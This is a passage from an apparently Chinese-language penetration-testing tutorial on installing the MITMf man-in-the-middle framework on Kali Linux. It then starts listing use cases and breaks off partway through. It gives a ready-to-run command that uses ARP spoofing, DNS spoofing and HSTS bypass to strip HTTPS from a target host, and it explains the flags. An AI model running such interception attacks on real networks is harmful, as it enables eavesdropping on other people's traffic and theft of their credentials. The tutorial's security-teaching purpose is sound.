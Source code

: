 1.  使用`mkvirtualenv MITMf -p /usr/bin/python2.7`命令创建虚拟环境并下载 MITMf 存储库，如下面的屏幕截图所示：

![](img/80c17ae0-0b98-497f-9d93-8c180e044b97.png)

1.  下载存储库后，更改目录并克隆子模块：

```
cd MITMf && git submodule init && git submodule update -recursive
```

1.  使用以下命令安装依赖项：

```
pip install -r requirements.txt
```

1.  要查看帮助菜单，请使用以下命令：

```
python mitmf.py --help 
```

您现在已在 Kali Linux 机器上设置了 MITMf。接下来，让我们深入了解 MITMf 的用例。

# MITMf 的用例

以下是 MITMf 的各种用例：

请记住，所有攻击都应该只在实验环境中进行，并且只能针对你已经获得合法许可的网络进行。

+   你可以使用 MITMf 绕过 HTTPS：

```
python mitmf.py -i eth0 --spoof --arp --hsts --dns --gateway 10.10.10.1 --target 10.10.10.15
```

+   +   `-i`：指定要对 MITMf 执行的接口

+   `--spoof`：告诉 MITMf 伪造身份

+   `--arp`：通过 ARP 执行流量重定向
